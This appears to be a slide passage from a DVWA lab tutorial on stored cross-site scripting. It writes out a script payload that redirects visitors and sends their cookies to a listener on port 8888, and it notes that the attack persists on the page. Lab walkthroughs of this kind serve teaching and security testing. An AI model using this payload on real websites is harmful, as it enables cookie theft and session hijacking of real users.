

At this point, it is sufficient to fill out the requests. We will enter a name of your choice and the script: <script>window.location='http://127.0.0.1:8888/?cookie='+document.cookie</script>. At this point, the attack will be executed and will remain permanent because by changing the sections of DVWA and then returning to XSS stored, the page will remain inaccessible. The result will be as shown in the image